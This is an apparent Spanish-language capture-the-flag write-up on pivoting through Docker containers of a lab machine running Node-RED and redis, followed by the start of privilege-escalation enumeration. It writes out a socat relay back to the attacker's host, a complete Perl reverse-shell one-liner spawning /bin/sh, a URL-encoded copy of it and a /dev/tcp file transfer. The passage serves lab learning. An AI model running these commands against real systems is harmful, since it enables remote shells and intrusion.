 ```bash
Mapeado de Red:

Node_red: 
	{172.18.0.2} ./socat TCP-LISTEN:4545,fork tcp:10.10.14.12:8989
	{172.19.0.4} [4545] puerto para ponerse a la escucha para recibir una conexion de la otra maquina -----------→  10.10.14.12:8989 redireccionamiento a nuestra maquina

www-data/redis:
	{172.19.0.2/16} [4545] peticion de conexion para que pase por el contenedor vulnerado y llegue a la maquina Nodered y de ahi a nosotros
	{172.20.0.2/16}

Nuevos Hosts:
	{172.20.0.3} Vemos que esta en un segmento distinto al que desde la maquina Node-RED no llegamos, pero si desde la maquina www-data/redis
	{172.19.0.1}
```

Pues desde aqui, volvemos a usar una `reverse_shell` en `perl` pero la `URL ENCODEAMOS` tal que quede asi:
```bash
No Encode
perl -e 'use Socket;$i="10.0.0.1";$p=4545;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Si URL Encode
perl%20-e%20%27use%20Socket%3B%24i%3D%2210.0.0.1%22%3B%24p%3D4545%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fsh%20-i%22%29%3B%7D%3B%27
```

Y obtenemos una conexion de la maquina `www-data/redis` hacia la maquina `Node-RED` pero que se nos envie con `socat` a nuestra maquina atacante `kali` gracias a la regla escrita con `socat`.
El archivo `socat` lo subimos a la maquina con `nv -vlnp 444 < socat` y en la maquina `Node-RED` procedemos a usar `cat > socat < /dev/tcp/10.10.14.12`, chequeamos que se halla pasado correctamente con un `md5sum socat` en los dos equipos.

# Escalada de Privilegios para conseguir el `user.txt`

Enumeramos la maquina victima
 			
```bash			
www-data@www:/home$ find . -name user.txt -type f 2>/dev/null | xargs ls -l
-r-------- 1 1000 1000 33 Apr 23  2018 ./somaro/user.txt
```	
Vemos que tenemos que convertirnos como `Somaro`
	
Enumeramos SUID ~ nada
Enumeramos tareas Cron ~ Encontramos una Tarea Cron
```bash
www-data@www:/$ ls -l /var/spool/cron/crontabs/
ls: cannot open directory /var/spool/cron/crontabs/: Permission denied
-------------------------------
cat /etc/crontab 			nadaa
ls -l /etc/cron.d/
total 4
-rw-r--r-- 1 root root 38 May  4  2018 backup
-------------------- SIP --------------------
```
Aqui tenemos algo : BACKUP
```bash
www-data@www:/backup$ cat backup.sh 

```
